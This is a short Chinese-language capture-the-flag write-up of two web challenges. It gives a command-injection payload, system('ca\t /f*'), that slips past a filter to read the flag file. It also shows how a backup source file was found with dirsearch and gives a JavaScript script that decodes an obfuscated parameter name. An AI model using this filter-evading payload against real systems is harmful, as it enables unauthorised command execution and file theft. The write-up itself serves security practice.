 ![](https://s2.loli.net/2024/03/07/W5tbjLHzCDcqh97.png)

### Wafr

RCE


![](https://s2.loli.net/2024/03/07/zNRsZE8wtJ3TQMr.png)

**payload：
POST：
code=system('ca\t /f*')%0a
**

### webinclude

逆向算法，伪协议


打开就要参数

![](https://s2.loli.net/2024/03/07/n9dCMHXQZlzOgSB.png)

dirsearch 扫下备份文件

![](https://s2.loli.net/2024/03/07/A3noeDOUgtcBLaJ.png)

下载 index.bak 查看源码

![](https://s2.loli.net/2024/03/07/2XjCdLoy5Il3Ot7.png)

定义了两个函数，并且利用这两个函数对原本的参数名进行了加密处理

最后加密结果为 dxdydxdudxdtdxeadxekdxea

写个逆向脚本再反求 parameter 即可

```javascript
const hash = 'dxdydxdudxdtdxeadxekdxea';

function string_to_int_array(str) {
  const intArr = [];
  for (let i = 0; i < str.length; i++) {
    intArr.push(str.charCodeAt(i) - 97);
  }
  return intArr;
}

function int_array_to_string(int_array) {
  let str = '';
  for (let i = 0; i < int_array.length; i += 2) {
    const charcode = int_array[i] * 26 + int_array[i + 1];
    str += String.fromCharCode(charcode);
  }
  return str;
}

console.log(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))));
```

